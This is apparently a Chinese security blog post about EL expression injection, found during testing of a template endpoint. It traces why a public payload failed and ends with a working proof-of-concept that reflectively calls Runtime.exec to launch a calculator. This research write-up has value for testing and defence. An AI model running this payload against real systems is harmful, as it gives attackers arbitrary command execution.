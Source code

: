```yaml
---
id: 392
title: 一次EL表达式注入
date: 2020-08-13 T17:25:17+00:00
author: bfpiaoran
layout: post
tags:
    - security
---
```


安全测试的时候同事发现 有个模板 可以带入变量 大概是这样的
```json
{
    "content": "${a} ${b}",
    "params": [
        "123","456"
    ]
}
```  
最后解析结果是"123 456"  觉得有表达式注入 我说试下${${a}+${b}}呢  结果果然返回的是579  
存在EL表达式注入无疑了 一路跟踪代码 发现接口只是做了替换 最后调用另一个内部接口 debug了下发现传参为 ${123+456} 嗯。。。只是简单的替换
![](/img/el/0.png)  

最后跟踪发现有个模板引擎去做解析 那么问题就出在这了。 
![](/img/el/1.png)  
查一下网上的payload  
```yaml
${("".getClass().forName("java.lang.Runtime").getMethods()[6].invoke(null,null)).exec("calc")}
```  
发现返回失败 但是执行  getMethods 是有返回的 只好本地调试下
```yaml
${"".getClass().forName("java.lang.Runtime").getMethods()}
```
![](/img/el/2.png) 

发现报错 找不到方法 明明反射调用了Runtime  一路跟进代码 发现是生产模板的锅 Engine.getEngine().parseTemplate(data)  
方法会逐级搜索该对象或者类下面是否有对应的方法 然后push到一个缓存中 继续读取 

![](/img/el/3.png) 

问题就出在这里 ClassUtils.searchMethod  java反射调用之后 生成的是一个Object 而Object是没有方法的 也就抛出下面的异常了

![](/img/el/4.png)   


![](/img/el/5.png)


所以 问了下师傅 说需要强制转换类型 最终poc 为
```yaml
${((Runtime)("".getClass().forName("java.lang.Runtime").getMethods()[6].invoke(null,null))).exec("calc")}
```



